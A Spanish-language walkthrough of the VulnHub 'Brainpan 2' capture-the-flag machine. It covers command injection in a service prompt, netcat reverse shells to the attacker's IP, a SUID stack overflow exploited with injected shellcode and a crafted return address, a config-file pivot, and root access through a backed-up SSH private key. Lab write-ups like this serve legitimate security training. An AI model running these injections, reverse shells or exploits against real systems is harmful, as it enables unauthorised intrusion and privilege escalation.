

Resolución de la máquina Brainpan 2 de la plataforma de VulnHub
Iniciamos escaneando los puertos de la máquina con nmap, nuevamente vemos el 9999 y el 10000
❯ nmap 192.168.100.63
Nmap scan report for 192.168.100.63
PORT STATE SERVICE
9999/tcp open abyss
10000/tcp open snet-sensor-mgmt
En el puerto 10000 como en la máquina anterior encontramos una plantilla sin mucho sentido

Al conectarnos al puerto 9999 tenemos una interfaz parecida, nos dice que entremos como GUEST
❯ netcat 192.168.100.63 9999
_| _|
_|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|
_| _| _|_| _| _| _| _| _| _| _| _| _| _| _|
_| _| _| _| _| _| _| _| _| _| _| _| _| _|
_|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
_|
_|
[______________________ WELCOME TO BRAINPAN 2.0________________________]
LOGIN AS GUEST
>>
Al entrar como GUEST nos da un comando para listar las funciones que tiene el programa
>> GUEST
ACCESS GRANTED
* * * *
THIS APPLICATION IS WORK IN PROGRESS. GUEST ACCESS IS RESTRICTED.
TYPE "TELL ME MORE" FOR A LIST OF COMMANDS.
* * * *
>>
Listamos las funciones y entre ellas esta FILES que parece ejecutar un 'ls -l'
>> TELL ME MORE
FILES HELP VIEW CREATE
USERS MSG SYSTEM BYE
>> FILES
total 36
-rwxr-xr-x 1 root root 18424 Nov 4 2013 brainpan.exe
-rw-r--r-- 1 root root 1109 Nov 5 2013 brainpan.txt
-rw-r--r-- 1 root root 683 Nov 4 2013 notes.txt
-rw-r--r-- 1 anansi anansi 12 Nov 5 2013 test-1
-rwxrwxrwx 1 anansi anansi 19 Nov 5 2013 test-2
>>
Otra de las funciones es VIEW que nos pide un archivo y parece hacele un cat
>> VIEW
ENTER FILE TO DOWNLOAD: test-1
Hello world
>>
Podemos intentar hacer un ; y concatenar un comando y parece que funciona
>> VIEW
ENTER FILE TO DOWNLOAD: a; id
uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
>>
Entonces simplemente ejecutamos una revshell y nos convertimos en anansi
>> VIEW
ENTER FILE TO DOWNLOAD: a; nc -e /bin/bash 192.168.100.41 443
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.100.63
script /dev/null -c bash
anansi@brainpan2:/opt/brainpan$ id
uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
anansi@brainpan2:/opt/brainpan$ hostname -I
192.168.100.63
anansi@brainpan2:/opt/brainpan$
Buscando archivos suid encontramos msg_root que... pertenece a root?
anansi@brainpan2:~$ find / -perm -4000 2>/dev/null
/usr/sbin/exim4
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/bin/umount
/bin/ping
/bin/mount
/bin/ping6
/bin/su
/home/reynard/msg_root
anansi@brainpan2:~$ ls -l /home/reynard/msg_root
-rwsr-xr-x 1 root root 8999 Nov 6 2013 /home/reynard/msg_root
anansi@brainpan2:~$
El ejecutar el binario nos pide 2 argumentos un usuario y un mensaje que nos printea
anansi@brainpan2:~$ /home/reynard/msg_root
usage: msg_root username message
anansi@brainpan2:~$ /home/reynard/msg_root username message
Your message is message
anansi@brainpan2:~$
Esta explotación es sencilla, se trata de crear una variable de entorno con el shellcode que usaremos, conseguir la direccion que ejecutara ese shellcode con el programa y finalmente correr el programa pasandole el offset mas la dirección, asi conseguimos una bash
Iniciamos sacando el offset con ayuda de gdb con peda, nos dice que es 14
❯ gdb -q ./msg_root
Reading symbols from ./msg_root...
gdb-peda$ pattern_create 100 pattern
Writing pattern of 100 chars to filename "pattern"
gdb-peda$ run $(cat pattern) pwned
Starting program: /home/gato/Desktop/Vulnhub/Brainpan2/msg_root $(cat pattern) pwned
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x41416e41 ('AnAA')
EBX: 0x0
ECX: 0x804a1a5 --> 0x0
EDX: 0x804a1a0 ("pwned")
ESI: 0xf7fa5000 --> 0x1e4d6c
EDI: 0xf7fa5000 --> 0x1e4d6c
EBP: 0xffffd6b8 --> 0xffffd6c8 --> 0x0
ESP: 0xffffd694 --> 0x804872e (<get_name+141>: mov eax,DWORD PTR [ebp-0x8])
EIP: 0x41416e41 ('AnAA')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41416e41
[------------------------------------stack-------------------------------------]
0000| 0xffffd694 --> 0x804872e (<get_name+141>: mov eax,DWORD PTR [ebp-0x8])
0004| 0xffffd698 --> 0xffffd6a6 ("AAA%AAsAAB\240\241\004\bAnAA\310\326\377\377{\207\004\bg\331\377\377\314\331\377\377")
0008| 0xffffd69c --> 0x804a1a0 ("pwned")
0012| 0xffffd6a0 --> 0x5
0016| 0xffffd6a4 --> 0x4141d774
0020| 0xffffd6a8 ("A%AAsAAB\240\241\004\bAnAA\310\326\377\377{\207\004\bg\331\377\377\314\331\377\377")
0024| 0xffffd6ac ("sAAB\240\241\004\bAnAA\310\326\377\377{\207\004\bg\331\377\377\314\331\377\377")
0028| 0xffffd6b0 --> 0x804a1a0 ("pwned")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41416e41 in ?? ()
gdb-peda$ pattern_offset 0x41416e41
1094807105 found at offset: 14
gdb-peda$
Para conseguir la dirección primero tenemos que descargar, compilar un binario en local y compartirlo ya que la máquina no tiene gcc
❯ wget https://raw.githubusercontent.com/intere/hacking/master/booksrc/getenvaddr.c &>/dev/null
❯ gcc -m32 getenvaddr.c -o getenvaddr
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Ahora desde la máquina lo descargamos en /tmp y le damos permisos de ejecución
anansi@brainpan2:/tmp$ wget http://192.168.100.41/getenvaddr &>/dev/null
anansi@brainpan2:/tmp$ chmod +x getenvaddr
anansi@brainpan2:/tmp$ ./getenvaddr
Usage: ./getenvaddr <environment variable> <target program name>
anansi@brainpan2:/tmp$
Primero definimos la variable shellcode, en este caso usare un shellcode que me de una bash
anansi@brainpan2:/tmp$ export SHELLCODE=$(python -c 'print("\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80")')
anansi@brainpan2:/tmp$
Ahora con ayuda del binario conseguimos la direccion donde se ejecutará la variable
anansi@brainpan2:/tmp$ ./getenvaddr SHELLCODE /home/reynard/msg_root
SHELLCODE will be at 0xbfffff18
anansi@brainpan2:/tmp$
Hay que tener en cuenta que estamos en little endian por lo que le daremos la vuelta
\xbf\xff\xff\x18 --> \x18\xff\xff\xbf
Entonces le pasamos como primer argumento el offset mas la dirección y como segundo lo que sea
anansi@brainpan2:/tmp$ /home/reynard/msg_root $(python -c 'print("A" * 14 + "\x18\xff\xff\xbf")') pwned
bash-4.2$ whoami
root
bash-4.2$ hostname -I
192.168.100.63
bash-4.2$
Espera, ya somos root?, no puede ser tan fácil... , veamos el uid de root
bash-4.2$ id root
uid=104(root) gid=106(root) groups=106(root)
bash-4.2$
Bueno somos usuario root pero el uid es 104 y gid 1006, no tenemos privilegios, nuestro objetivo es llegar a root con un espacio (root ) que es el que tiene uid 0
bash-4.2$ id "root "
uid=0(root ) gid=0(root ) groups=0(root )
bash-4.2$
Si volvemos a buscar archivos suid, ahora vemos un .exe que pertenece a el usuario puck
bash-4.2$ find / -perm -4000 2>/dev/null
/opt/old/brainpan-1.8/brainpan-1.8.exe
/usr/sbin/exim4
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/bin/umount
/bin/ping
/bin/mount
/bin/ping6
/bin/su
/home/reynard/msg_root
bash-4.2$ ls -l /opt/old/brainpan-1.8/brainpan-1.8.exe
-rwsr-xr-x 1 puck puck 17734 Nov 4 2013 /opt/old/brainpan-1.8/brainpan-1.8.exe
bash-4.2$
Aunque la extensión es .exe es un binario de linux que abre un socket en local por el puerto 9333
bash-4.2$ cd /opt/old/brainpan-1.8/
bash-4.2$ ./brainpan-1.8.exe
port = 9333
ipaddr = 127.0.0.1
+ bind done
+ waiting for connections...
El config se almacena en un archivo cfg del cual somos propietarios
bash-4.2$ ls -l
-rwsr-xr-x 1 puck puck 17734 Nov 4 2013 brainpan-1.8.exe
-rw-r--r-- 1 puck puck 1227 Nov 5 2013 brainpan.7
-rw-rw-rw- 1 puck staff 25 Jan 14 05:43 brainpan.cfg
bash-4.2$ cat brainpan.cfg
port=9333
ipaddr=127.0.0.1
bash-4.2$
Cambiamos el 127.0.0.1 por 0.0.0.0 para poder conectarnos desde fuera, ahora lo ejecutamos
bash-4.2$ echo "port=9333" > brainpan.cfg
bash-4.2$ echo "ipaddr=0.0.0.0" >> brainpan.cfg
bash-4.2$ ./brainpan-1.8.exe
port = 9333
ipaddr = 0.0.0.0
+ bind done
+ waiting for connections...
Al conectarnos podemos ver que es el mismo servicio que esta corriendo en el 9999
❯ netcat 192.168.100.63 9333
_| _|
_|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|
_| _| _|_| _| _| _| _| _| _| _| _| _| _| _|
_| _| _| _| _| _| _| _| _| _| _| _| _| _|
_|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
_|
_|
[______________________ WELCOME TO BRAINPAN 1.8________________________]
LOGIN AS GUEST
>>
Repetimos el proceso del inicio y conseguimos una shell como puck
>> GUEST
ACCESS GRANTED
* * * *
THIS APPLICATION IS WORK IN PROGRESS. GUEST ACCESS IS RESTRICTED.
TYPE "TELL ME MORE" FOR A LIST OF COMMANDS.
* * * *
>> VIEW
ENTER FILE TO DOWNLOAD: a; nc -e /bin/sh 192.168.100.41 443
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.100.63
script /dev/null -c "bash -p"
bash-4.2$ whoami
puck
bash-4.2$ hostname -I
192.168.100.63
bash-4.2$
Para mejorar nuestra shell podemos definir nuestro uid y lanzar una bash
bash-4.2$ python
Python 2.7.3 (default)
>>> import os, pty
>>> os.setresuid(1001, 1001, 1001)
>>> pty.spawn("/bin/bash")
puck@brainpan2:~$
Hay un directorio .backup oculto que tiene una id_rsa privada probablemente de 'root '
puck@brainpan2:~$ find
.
./.ssh
./.ssh/known_hosts
./.ssh/id_rsa.pub
./.ssh/id_rsa
./.profile
./.bash_history
./.backup
./.backup/.ssh
./.backup/.ssh/id_rsa.pub
./.backup/.ssh/id_rsa
./.backup/.profile
./.backup/.bash_history
./.backup/.bashrc
./.backup/.bash_logout
./.bashrc
./.bash_logout
puck@brainpan2:~$
Pero el servicio ssh parece estar desconectado al menos en el puerto 22
puck@brainpan2:~$ ssh "root "@localhost
ssh: connect to host localhost port 22: Connection refused
puck@brainpan2:~$
En la configuracion podemos ver que corre solo en 127.0.1.1 por el puerto 2222
puck@brainpan2:~$ cat /etc/ssh/sshd_config | grep -vE "^#|^$" | head -n2
Port 2222
ListenAddress 127.0.1.1
puck@brainpan2:~$
Nos podemos conectar como 'root ' con la id_rsa en .backup contra la 127.0.0.1 por el puerto 2222
puck@brainpan2:~$ ssh "root "@127.0.1.1 -p 2222 -i .backup/.ssh/id_rsa
root @brainpan2:~# id
uid=0(root ) gid=0(root ) groups=0(root )
root @brainpan2:~# hostname -I
192.168.100.63
root @brainpan2:~# cat /root/flag.txt
!!! CONGRATULATIONS !!!
You've completed the Brainpan 2 challenge!
Or have you...?
Yes, you have! Pat yourself on the back. :-)
Questions, comments, suggestions for new VM
challenges? Let me know!
Twitter: @superkojiman
Email : contact@techorganic.com
Web : http://www.techorganic.com
root @brainpan2:~#